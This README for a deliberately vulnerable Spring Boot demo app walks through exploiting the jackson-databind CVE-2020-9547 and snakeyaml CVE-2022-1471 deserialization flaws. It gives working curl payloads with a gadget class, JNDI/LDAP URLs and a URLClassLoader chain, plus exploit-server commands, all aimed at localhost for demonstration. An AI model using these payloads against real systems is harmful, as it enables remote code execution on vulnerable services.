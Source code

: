 # Deserialization vulnerabilities in jackson-databind and snakeyaml

## Background

Deserialization vulnerabilities in jackson-databind are exploitable if the following conditions hold:
- Polymorphic type handling has been enabled for jackson-databind (see [here](https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062) or [here](https://snyk.io/blog/java-json-deserialization-problems-jackson-objectmapper/))
- A gadget class, which loads Java classes through JNDI, is in the classpath and has not yet been blocked by the deny-list implemented in jackson-databind
- The system property `trustURLCodebase` is true, either because the application runs on an old Java version or it has been set explicitely (see [here](https://www.rapid7.com/blog/post/2021/12/10/widespread-exploitation-of-critical-remote-code-execution-in-apache-log4j/))

## Prerequisites

1. Install Java 8+ and Maven
2. Install server toolkit from https://github.com/welk1n/JNDI-Injection-Exploit in folder `lib`

## Run the application

1. Build the Spring Boot app with `mvn clean package`
2. Start it with `java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar target/springboot-app-0.0.1-SNAPSHOT.jar`
    - Note: The system property is required on recent Java versions.
3. Get JSON with `curl http://localhost:8080/persons/foo`
4. Post legitimate JSON

```
curl -i -X POST -H 'Content-type:application/json;charset=UTF-8' http://localhost:8080/persons -d '
{ "id" : 2,
  "firstname" : "John",
  "lastname" : "Doe",
  "createdAt" : "2024-02-19T10:35:20.867+0000",
  "modifiedAt" : "2024-02-19T10:35:20.867+0000"
}'
```
4. Post legitimate YAML

```
curl -i -X POST -H 'Content-type:text/plain;charset=UTF-8' http://localhost:8080/persons -d 'id: 2
firstname: John
lastname: Doe'
```

## Exploit CVE-2020-9547 in jackson-databind
<!--
1. Start a Web server to host the `com.acme.backdoor.Backdoor`

```
python3 -m http.server 9000 --directory target/test-classes
```

2. Start an LDAP server that redirects to the Web server

````sh
mvn dependency:copy-dependencies
java -cp target/dependency/unboundid-ldapsdk-3.1.1.jar:target/test-classes \
    com.acme.jndi.LDAPRefServer \
    http://localhost:9000#com.acme.backdoor.Backdoor
````-->

One gadget class of this vulnerability is `br.com.anteros.dbcp.AnterosDBCPConfig` (see [here](https://github.com/fairyming/CVE-2020-9547/blob/master/Poc.java)).

1. Run the LDAP and Web server with `java -jar lib/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a Safari http://www.google.de" -A "127.0.0.1"`

    - The command specified with `-C` will be executed by the Spring Boot application upon deserialization.
    - Copy one of the `ldap://` URLs shown in the console.

2. Post a JSON that causes jackson-databind to deserialize the gadget class, which downloads and initializes the backdoor (this only works because the attribute `Person#modifiedAt` is of type `Object`, which is where the polymorphic type handling kicks in).

```
curl -i -X POST -H 'Content-type:application/json;charset=UTF-8' http://localhost:8080/persons -d '
{ "id" : 2,
  "firstname" : "John",
  "lastname" : "Doe",
  "createdAt" : "2024-02-19T10:35:20.867+0000",
  "modifiedAt" : ["br.com.anteros.dbcp.AnterosDBCPConfig", {"healthCheckRegistry": "<ldap-url>"}]
}'
```

## Exploit CVE-2022-1471 in snakeyaml

2. Post a YAML like follows (replace Jetty URL before). The exploit succeeds if you see an HTTP request being made to the Jetty server

```
curl -i -X POST -H 'Content-type:text/plain;charset=UTF-8' http://localhost:8080/persons -d 'id: 2
firstname: John
lastname: Doe
modifiedAt: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["<jetty-url>"]]]]'
```

## Exploit other Jackson vulnerabilities

- Edit the `pom.xml` to declare dependencies on JARs that include the respective gadget classes.
- Change the names of the gadget class and attribute in the JSON payload.

## References

- LDAP and Web servers to serve a dummy class upon deserialization
    - https://github.com/welk1n/JNDI-Injection-Exploit
    - https://github.com/mbechler/marshalsec
- Background on JSON deserialization
    - https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062
    - https://snyk.io/blog/java-json-deserialization-problems-jackson-objectmapper/
    - https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
    - https://github.com/mbechler/marshalsec/blob/master/README.md
- Snakeyaml
    - https://github.com/falconkei/snakeyaml_cve_poc
    - https://www.baeldung.com/jackson-yaml